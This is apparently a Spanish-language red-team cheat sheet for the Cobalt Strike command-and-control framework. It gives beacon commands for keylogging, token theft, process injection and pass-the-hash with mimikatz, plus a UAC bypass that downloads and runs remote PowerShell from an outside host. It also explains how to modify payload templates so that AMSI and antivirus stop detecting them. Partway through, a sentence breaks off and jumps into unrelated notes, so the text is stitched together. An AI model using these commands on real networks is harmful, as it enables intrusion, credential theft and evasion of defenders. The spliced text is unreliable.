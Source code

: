 # Cobalt Strike

### Listeners

### Listeners de C2

`Cobalt Strike -> Listeners -> Add/Edit` y luego puedes seleccionar dónde escuchar, qué tipo de beacon usar (http, dns, smb...) y más.

### Listeners Peer2Peer

Los beacons de estos listeners no necesitan hablar directamente con el C2, pueden comunicarse a través de otros beacons.

`Cobalt Strike -> Listeners -> Add/Edit` y luego debes seleccionar los beacons TCP o SMB.

* El **beacon TCP establecerá un listener en el puerto seleccionado**. Para conectarse a un beacon TCP, usa el comando `connect <ip> <port>` desde otro beacon.
* El **beacon SMB escuchará en un pipename con el nombre seleccionado**. Para conectarse a un beacon SMB, debes usar el comando `link [target] [pipe]`.

### Generar y alojar payloads

#### Generar payloads en archivos

`Attacks -> Packages ->`&#x20;

* **`HTMLApplication`** para archivos HTA
* **`MS Office Macro`** para un documento de Office con una macro
* **`Windows Executable`** para un .exe, .dll o servicio .exe
* **`Windows Executable (S)`** para un .exe, .dll o servicio .exe **sin etapas** (mejor sin etapas que con etapas, menos IoCs)

#### Generar y alojar payloads

`Attacks -> Web Drive-by -> Scripted Web Delivery (S)` Esto generará un script/ejecutable para descargar el beacon de cobalt strike en formatos como: bitsadmin, exe, powershell y python.

#### Alojar payloads

Si ya tienes el archivo que deseas alojar en un servidor web, simplemente ve a `Attacks -> Web Drive-by -> Host File` y selecciona el archivo a alojar y la configuración del servidor web.

### Opciones de Beacon

<pre class="language-bash"><code class="lang-bash"># Ejecutar binario .NET local
execute-assembly &#x3C;/path/to/executable.exe>

# Capturas de pantalla
printscreen    # Tomar una captura de pantalla única a través del método PrintScr
screenshot     # Tomar una captura de pantalla única
screenwatch    # Tomar capturas de pantalla periódicas del escritorio
## Ve a Ver -> Capturas de pantalla para verlas

# keylogger
keylogger [pid] [x86|x64]
## Ver > Pulsaciones de teclas para ver las teclas presionadas

# portscan
portscan [pid] [arch] [targets] [ports] [arp|icmp|none] [max connections] # Inyectar acción de escaneo de puertos dentro de otro proceso
portscan [targets] [ports] [arp|icmp|none] [max connections]

# Powershell
# Importar módulo Powershell
powershell-import C:\path\to\PowerView.ps1
powershell &#x3C;solo escribe aquí los comandos de powershell>

# Impersonación de usuario
## Generación de token con credenciales
make_token [DOMAIN\user] [password] #Crear token para suplantar a un usuario en la red
ls \\computer_name\c$ # Intenta usar el token generado para acceder a C$ en una computadora
rev2self # Dejar de usar el token generado con make_token
## El uso de make_token genera el evento 4624: Se inició sesión correctamente en una cuenta. Este evento es muy común en un dominio de Windows, pero se puede reducir filtrando en el tipo de inicio de sesión. Como se mencionó anteriormente, utiliza LOGON32_LOGON_NEW_CREDENTIALS que es el tipo 9.

# Bypass de UAC
elevate svc-exe &#x3C;listener>
elevate uac-token-duplication &#x3C;listener>
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"

## Robar token de pid
## Como make_token pero robando el token de un proceso
steal_token [pid] # Además, esto es útil para acciones de red, no para acciones locales
## Desde la documentación de la API sabemos que este tipo de inicio de sesión "permite al llamador clonar su token actual". Es por eso que la salida de Beacon dice Impersonated &#x3C;current_username> - está suplantando nuestro propio token clonado.
ls \\computer_name\c$ # Intenta usar el token generado para acceder a C$ en una computadora
rev2self # Dejar de usar el token generado con steal_token

## Ejecutar proceso con nuevas credenciales
spawnas [domain\username] [password] [listener] #Hazlo desde un directorio con acceso de lectura como: cd C:\
## Como make_token, esto generará el evento de Windows 4624: Se inició sesión correctamente en una cuenta, pero con un tipo de inicio de sesión de 2 (LOGON32_LOGON_INTERACTIVE). Detallará el usuario que llama (TargetUserName) y el usuario suplantado (TargetOutboundUserName).

## Inyectar en proceso
inject [pid] [x64|x86] [listener]
## Desde un punto de vista de OpSec: No realices inyección entre plataformas a menos que realmente tengas que hacerlo (por ejemplo, x86 -> x64 o x64 -> x86).

## Pasar el hash
## Este proceso de modificación requiere parchear la memoria de LSASS, lo que es una acción de alto riesgo, requiere privilegios de administrador local y no es muy viable si Protected Process Light (PPL) está habilitado.
pth [pid] [arch] [DOMAIN\user] [NTLM hash]
pth [DOMAIN\user] [NTLM hash]

## Pasar el hash a través de mimikatz
mimikatz sekurlsa::pth /user:&#x3C;username> /domain:&#x3C;DOMAIN> /ntlm:&#x3C;NTLM HASH> /run:"powershell -w hidden"
## Sin /run, mimikatz genera un cmd.exe, si estás ejecutando como usuario con escritorio, verá
```
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .
```
No olvides cargar el script agresivo `dist-pipe\artifact.cna` para indicarle a Cobalt Strike que use los recursos del disco que queremos y no los cargados.

### Kit de recursos

La carpeta ResourceKit contiene las plantillas para los payloads basados en scripts de Cobalt Strike, incluyendo PowerShell, VBA y HTA.

Usando [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) con las plantillas, puedes encontrar qué es lo que el defensor (en este caso AMSI) no está aceptando y modificarlo:
```
.\ThreatCheck.exe -e AMSI -f .\cobaltstrike\ResourceKit\template.x64.ps1
```
Modificar las líneas detectadas permite generar una plantilla que no será detectada.

No olvides cargar el script agresivo `ResourceKit\resources.cna` para indicarle a Cobalt Strike que use los recursos del disco que queremos y no los cargados.
```bash
cd C:\Tools\neo4j\bin
neo4j.bat console
http://localhost:7474/ --> Change password
execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c All -d DOMAIN.LOCAL



# Change powershell
C:\Tools\cobaltstrike\ResourceKit
template.x64.ps1
# Change $var_code -> $polop
# $x --> $ar
cobalt strike --> script manager --> Load --> Cargar C:\Tools\cobaltstrike\ResourceKit\resources.cna

#artifact kit
cd  C:\Tools\cobaltstrike\ArtifactKit
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .


```


